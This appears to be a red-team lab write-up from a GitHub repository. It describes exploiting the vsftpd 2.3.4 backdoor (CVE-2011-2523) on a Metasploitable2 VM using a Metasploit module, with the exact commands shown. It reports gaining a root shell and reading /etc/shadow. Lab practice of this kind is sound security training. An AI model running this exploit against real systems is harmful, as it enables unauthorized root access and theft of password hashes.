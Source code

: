 # 💥 Lab03 – Exploiting FTP Backdoor (vsftpd 2.3.4)

> **Date:** 23 May 2025  
> **Target:** Metasploitable2 – FTP Service  
> **Vulnerability:** vsftpd 2.3.4 Backdoor  
> **CVE:** [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523)

---

## 🛡️ Description

This lab focuses on exploiting a known backdoor vulnerability in **vsftpd 2.3.4**, a version of the Very Secure FTP Daemon that contains a malicious backdoor.  
By connecting to the FTP service with a specially crafted username, attackers can gain root shell access to the system.

---

## 🎯 Target System

- Metasploitable2 VM  
- FTP running on port 21  
- Vulnerable service: vsftpd 2.3.4 (unauthenticated remote shell exploit)

---

## 🧨 Exploitation Steps

Used the **Metasploit Framework** to exploit the vulnerability:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
set RPORT 21
run
```
### Outcome:

Successfully gained root shell access on the target machine

Verified elevated privileges and accessed restricted files

## 📊 Real-World Relevance
Although this CVE is old, it simulates a typical real-world scenario:
Organizations often leave legacy systems exposed. Attackers actively scan for such misconfigurations and outdated services, making this kind of exploit highly realistic for entry vectors in penetration tests.

## 🧠 What I Learned
How to search, identify, and apply Metasploit CVE modules

Importance of version enumeration during reconnaissance

Real-world post-exploitation basics (privilege validation, shadow file access)

Proper usage of exploit parameters and validation commands

## Screenshot

The following screenshot captures the successful execution of the vsftpd 2.3.4 backdoor exploit using Metasploit and resulting root shell access:

![vsftpd Exploit – Root Shell](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.28.34.png))

Verification of root access using basic system commands (`id`, `whoami`, `hostname`):

![Root Access Confirmed](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.29.13.png
))

As part of post-exploitation, we accessed `/etc/shadow` to demonstrate privilege level:

![Shadow File Access](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab3/Screen%20Shot%202025-05-23%20at%2020.31.44.png)



---
## 📁 Notes
- This lab taught me the full cycle: Recon → Identify → Exploit → Verify → Document

- I now understand how Metasploit structures exploits and handles sessions

- This exploit is one of the first root-level shell gains in my Red Team Labs series
